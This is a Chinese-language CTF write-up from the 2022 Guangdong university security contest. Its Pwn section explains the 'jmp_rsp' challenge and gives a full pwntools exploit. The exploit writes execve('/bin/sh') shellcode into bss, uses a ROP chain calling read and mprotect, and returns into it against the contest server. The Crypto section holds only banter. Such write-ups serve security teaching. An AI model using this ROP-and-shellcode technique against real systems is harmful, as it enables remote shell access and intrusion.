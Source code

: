 # 2022广东省赛
>**(第二届广东大学生网络安全攻防大赛)**  
>**【HED CTF / COMPASS CTF】 WriteUp**  
>**成绩是团队协作的成果**
>**Rank:9** （total 504） Solve:8 Pts:1947

## Pwn
### Pwn | jmp_rsp (235pt)
**写WP时候发现远程的bss是RWX的，直接ret2bss就完了，为什么IDA和readelf都说bss是RW的呢？**  
**更惨的是，这题好像有jmp rsp的gadget。。。**  
**怎么有不读题就开始造链子的人呢 XD 可能这就是我变不PWN的原因吧** 

checksec显示有canary，其他保护全无，栈段RWX  
IDA打开，程序逻辑非常简单，在read处也无canary，但是看起来这是个静态编译的二进制，没有引用的外部函数。  
先想到的是：写bss格式化字符串 + printf rop泄露栈地址 + 栈上ret2shellcode  
但是大概是没设置小缓冲区的原因，程序直到退出才吐出输出，在远程就拿不到任何输出，所以考虑不利用输出的getshell  
这题没有libc也不能ret2dl，但是有mprotect函数，可以改段权限，于是构造：  
shellcode写到bss + mprotect改bss权限 + bss上ret2shellcode  
 

exp:
```python
from pwn import p64
from pwn import *

# context.log_level = "debug"
e = ELF('jmp_rsp')
p = remote("47.106.122.102", 45286)
# p = e.process()
read_addr = 0x449380  # elf.sym["read"]
vul_addr = 0X400b5d
mprot_addr = 0x44a160
printf = 0x40f690
rdi = 0x401902
rsi_r15 = 0x401900
bss_addr = e.bss()
print(bss_addr)
p_write_bss = b'a' * 0x88 + p64(rdi) + p64(0) + p64(rsi_r15) + p64(bss_addr) + b'a' * 8 + p64(read_addr) + p64(vul_addr)
p.send(p_write_bss + b'c' * (0x100 - len(p_write_bss)))
shell_code = \
    b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
p.send(shell_code + b'c' * (0x100 - len(shell_code)))

payload = b'a' * 0x88 + p64(0x4018F5) + p64(vul_addr) + p64(0) + p64(1) + p64(mprot_addr) + p64(7) + p64(0x100000) + p64(0x600000) + p64(bss_addr)
p.send(payload + b'c' * (0x100 - len(payload)))
p.interactive()
```
## Crypto
### Crypto | crypto-xor2 (114pt)
想起了HackNat里边的一个剧情：一个人把他的密码设成\*\*\*\*\*\*\*，这样如果有一天密码被盗了，别人也会以为没拿到真正的密码。    
队里密码师傅说是智商检测题，她说是就是吧...  
